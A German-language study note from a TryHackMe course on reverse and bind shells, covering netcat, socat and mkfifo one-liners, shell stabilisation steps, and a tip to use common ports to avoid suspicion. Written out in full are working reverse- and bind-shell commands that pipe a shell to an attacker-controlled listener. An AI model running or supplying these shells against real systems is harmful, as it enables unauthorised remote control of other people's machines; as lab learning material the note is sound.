

# Reverse & Bind Shells
Angelegt Sonntag 23 Oktober 2022

[#cheat-sheets](#Linux:TryHackMe:Reverse & Bind Shells): ganz unten.

* *Reverse Shell*: Code auf Zielrechner stellt Verbindung zu eigenen her (Listener ist der eigene Computer)
* *Bind Shell*: Das Ziel hört und wartet bis es Code erhält.
* [id: shell-nachteile]Sind oft
	* instabil,
	* [#non-interactive](#Linux:TryHackMe:Reverse & Bind Shells),
	* haben eigenartige Formatierungen/Formatierungsfehler, weil sie innerhalb eines Terminal-Prozesses laufen
	* und man kann bspw. **nicht** ``STRG + C`` nutzen, um Prozesse zu beenden, da das die Shell an sich stoppt.
		* Wird alles in [#python](#Linux:TryHackMe:Reverse & Bind Shells), [#rlwrap](#Linux:TryHackMe:Reverse & Bind Shells) & [#socat](#Linux:TryHackMe:Reverse & Bind Shells) behoben.

### Reverse Shell

* kommen zu 90% in CTFs vor
* *Listener* (``-l``) auf dem eigenen Rechner

	sudo nc -lvnp PORT # muss zuerst ausgeführt werden

und Shell beim Ziel
	nc <MEINE IP> PORT -e /bin/bash

* Wie man unter [#reverse-shell-listener](#Linux:TryHackMe:Reverse & Bind Shells) sieht, lautet die Syntax zum starten eines *Listener* ``nc -lvnp PORT``. Für Mehr Informationen zu den Optionen, s. [:Linux:**netcat & socat#Optionen**](../netcat_&_socat.md).
	* Bekannte Ports wie ``53``, ``80``, ``443`` bieten sich an, um weniger Verdacht zu erregen

### Bind Shell

* Genau andersrum zur [#reverse-shell](#Linux:TryHackMe:Reverse & Bind Shells): Listener (``-l``) sitzt beim Ziel

	nc -lvnp PORT -e /bin/bash # muss zuerst ausgeführt werden
	# oder "cmd.exe" bei Windows
 
und Gegenstück bei mir
	nc ZIEL-IP PORT

* Damit *Bind Shells* funktionieren, muss es also bereits einen *Listener* beim Ziel geben.

Interactive & Non-Interactive
-----------------------------

* Mit *interactive* Shells gestartete Programme sind interaktiv, bspw. [:Linux:**ssh**](../ssh.md), das ggf. nach einen Passwort fragt
	* Die [#standard-mkfifo-reverse-shell](#Linux:TryHackMe:Reverse & Bind Shells) ist *interactive*
* [id: non-interactive]*Non-interactive* Shells sind das Gegenteil. Mit ihnen kann man nur Programme, die keine Nutzer-Eingabe erwarten, sinnvoll ausführen
	* Die meisten [#reverse-shell](#Linux:TryHackMe:Reverse & Bind Shells)s und [#bind-shell](#Linux:TryHackMe:Reverse & Bind Shells)s sind *non-interactive*
	* Von [:Linux:**ssh**](../ssh.md) würde man bspw. keine Passwort-Eingabe erhalten

Shell-Stabilisierung
--------------------
Auflistung mehrerer Möglichkeiten die Shell von ihren [oben](#Linux:TryHackMe:Reverse & Bind Shells) beschriebenen Nachteilen teilweise zu befreien. Alles entnommen aus [Introtoshells, Task 5 − TryHackMe](https://tryhackme.com/room/introtoshells).

* [id: tty-werte]Wenn einer der aufgeführten Stabilisierungen vorgenommen wurde, kann man noch die *Terminal-tty-Größe* ändern um bspw. Texteditoren über die *Reverse* oder *Bind Shell* zu nutzen
	* Dazu ``stty -a`` aufrufen und Werte für ``rows`` & ``columns`` notieren
	* Schließlich ``stty rows ANZAHL`` & ``stty cols ANZAHL`` ausführen

### Python

* Vorgehen **nachdem** man mit dem Zielrechner per [:Linux:**netcat & socat**](../netcat_&_socat.md) verbunden ist 
	1. Ggf. Version von [:Python](), dh. ``python2`` oder ``python3`` verwenden

	python -c 'import pty;pty.spawn("/bin/bash")'
	
Startet etwas bessere ``bash``-Shell

2. *term-Befehle* aktivieren (bspw. ``clear``)

	export TERM=xterm
	

3. [id: strg-c-aktivieren]Wichtigster und letzter Schritt: Shell per ``STRG + Z`` in Hintergrund verlagern und 

	stty raw -echo; fg
	

* Schaltet ``echo``-Befehl des eigenen Terminals aus, wodurch man die Autovervollständigung, Pfeiltasten und ``CTRL + C`` zum Beenden von Prozessen nutzen kann. Anschließend wird Shell wieder in den Vordergrund (``f``ore ``g``round) geholt

❗️Wenn Shell stirbt, sieht man eigenen Eingaben wegen der Deaktivierung von ``echo`` nicht ⇒ ``reset`` eingeben!

#### Als Bild

### rlwrap

* Ist nicht einmal bei *Kali Linux* vorinstalliert.
* ``rlwrap`` erlaubt Zugriff auf die *Shell-Geschichte*, Autovervollständigung und Pfeiltasten unmittelbar mit dem Starten der [#reverse-shell](#Linux:TryHackMe:Reverse & Bind Shells).
	* ``STRG + C`` aber **nicht** möglich, s. dazu [#strg-c-aktivieren](#Linux:TryHackMe:Reverse & Bind Shells)

	rlwrap nc -lvnp PORT

* Nützlich für Windows-Shells

### socat

* Voraussetzung: Man konnte bereits eine simple *netcat-Shell* etablieren
* Dazu einen [Python-HTTP-Server]() auf dem **eigenen** Rechner starten
* Ein [socat-Binary − github](https://github.com/andrew-d/static-binaries/tree/master/binaries/linux/x86_64) in dem [Python-HTTP-Server]()-Verzeichnis ablegen (das ohne Abhängigkeiten kompiliert wurde. Es finden sich noch mehr solcher Binaries unter dem Link)
* per [:Linux:**wget**](../wget.md) oder [:Linux:**curl**](../curl.md) dieses herunterladen und bspw in ``/tmp/socat`` speichern
* Datei ausführen, s. [Linux:**netcat & socat#reverse-shell**](../netcat_&_socat.md)

Beispiele und Erklärungen
-------------------------
Hier werden Beispiele und deren Erklärungen aufgeführt.

### socat-Reverse & Bind Shell

#### Reverse Shell

* Listener (bei mir):

	socat tcp-l:<PORT> - # Bindestrich nicht vergessen

äquivalent zu ``nc -lvnp PORT``

* Gegenstück (bei Ziel)

	socat tcp:<MEINE IP>:PORT exec:"bash -li"

#### Bind Shell

* Listener (bei Ziel):

	socat tcp-l:PORT exec:"bash -li"

* Gegenstück (bei mir):

	socat tcp:<ZIEL IP>:<ZIEL PORT> - # Bindestrich nicht vergessen

#### socat-Shell-Stabilisierung

* per ``socat`` erreicht man eine vollständig/normal stabile und interaktive Linux-Shell (funktioniert nicht mit Windows)

⇒ man kann [:Linux:ssh](../ssh.md) benutzen 

* Für den Listener (bei mir):

	socat tcp-l:PORT file:`tty`,raw,echo=0

* Listener und „current TTY“ werden verbunden, dann „``echo`` deaktiviert“, vgl. [#strg-c-aktivieren](#Linux:TryHackMe:Reverse & Bind Shells)

* Gegenstück (bei Ziel):

	socat tcp:<MEINE IP>:PORT exec:"bash -li",pty,stderr,sigint,setsid,sane

* ``tcp:…:…`` Stelle Verbindung zum Listener her
* ``exec:…`` Starte interaktive ``bash``-Sitzung

##### Beispielhafter Ablauf

* links: Listener (bei mir)
* rechts: aus einfacher [Reverse Shell](#Linux:TryHackMe:Reverse & Bind Shells) wird per ``socat`` eine stabile, interaktive Standard-Shell (mit [:Linux:ssh](../ssh.md)-Unterstützung)

* anschließend kann man noch die [#tty-werte](#Linux:TryHackMe:Reverse & Bind Shells) setzen

### Standard-mkfifo-Reverse Shell
	rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc ZIEL-IP PORT > /tmp/f; rm /tmp/f

0. Davor sollte ein *netcat-Listener* auf dem angegeben Port auf dem eigenen Rechner gestartet werden
1. ``rm /tmp/f`` Sicherheitshalber die Datei ``/tmp/f`` löschen, falls sie existiert, da ``mkfifo`` sonst keine neue *Named Pipe* anlegen kann. (Die *Named Pipe* wird bewusst im ``/tmp``-Verzeichnis angelegt, das beim Booten gelöscht wird und sowieso nur unwichtige Dateien enthält)
2. ``mkfifo /tmp/f`` Anlegen einer *Named Pipe*
3. [id: mkfifo-nc-shell]``cat /tmp/f | /bin/sh -i 2>&1 | nc ZIEL-IP PORT > /tmp/f``
	1. ``cat /tmp/f`` lesen aus der *Named Pipe*
	2. ``| /bin/sh -i 2>&1`` Ausgabe von „a.“ in ``/bin/sh`` leiten (``|``)

``-i`` (``i``nteractive) sorgt dafür, dass man mit der Shell interagieren, also interaktive Programme wie [:Linux:**ssh**](../ssh.md) starten kann
``2>&1`` Fehlermeldung auf ``stdout`` leiten (s. [:Linux:**Deskriptoren**](../Deskriptoren.md)), damit auch diese an mich durch ``nc`` geschickt werden (sonst würden sie beim Ziel angezeigt werden)

3. ``| nc IP PORT`` Ausgaben von ``/bin/sh`` an ``nc`` leiten, das die Informationen an ``IP:PORT``, die dabei auf meinen Rechen verweisen, schickt
4. ``>`` Ausgaben von ``nc``, dh. unsere Eingaben, die an diesen *netcat*-Prozess geschickt werden, in die *Named Pipe* ``/tmp/f`` leiten

4. ``rm /tmp/f`` *Named Pipe* löschen

Der Befehl unter [3.](#Linux:TryHackMe:Reverse & Bind Shells) beschreibt einen Kreis, da *Named Pipes* nur funktionieren, wenn sie gleichzeitig gelesen und beschrieben werden. Das Ablaufdiagramm kann sich wie folgt vorgestellt werden:
``/tmp/f`` → ``cat`` → ``/bin/sh`` → ``nc`` → (auf meinem Rechner) Ausgabe im Terminal → Warten auf Eingabe → (auf Zielrechner) Eingabe in ``/tmp/f`` schreiben → ``cat`` → …

#### Weitere Möglichkeit
	rm /tmp/f; mkfifo /tmp/f; nc <MEINE IP> PORT < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f

### Standard-mkfifo-Bind Shell

* Analog zu [#standard-mkfifo-reverse-shell](#Linux:TryHackMe:Reverse & Bind Shells)

	rm /tmp/f; mkfifo /tmp/f; nc -lvnp PORT < /tmp/f | /bin/sh > /tmp/f 2>&1; rm /tmp/f

1. Obiger Code wird auf Ziel-Rechner ausgeführt
2. Dann auf angreifendem Rechner: ``nc ZIEL-IP PORT``

#### Erklärung
Lösche Datei ``/tmp/f`` & Erstelle *Named Pipe* ``/tmp/f`` → *Listener* wartet auf Eingaben → übergibt diese ``/bin/bash`` & [stderr](../Deskriptoren.md) wird auf [stdout](../Deskriptoren.md) geleitet → Ausgabe des Befehls, bzw. [stdout](../Deskriptoren.md) wird in die *Named Pipe* geleitet → *Listener* „liest‘ von der *Named Pipe* → Schickt Ausgabe der *Named Pipe* zurück (an mich) → Lösche ``/tmp/f``

#### Beispielhafter Ablauf

### Index

* ``nc`` [:Linux:**netcat & socat**](../netcat_&_socat.md)
* :Linux:**mkfifo (named pipes)**

Cheat Sheets
------------
@cheatsheet

* [Reverse Shell Cheatsheet − github](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
* <https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet>

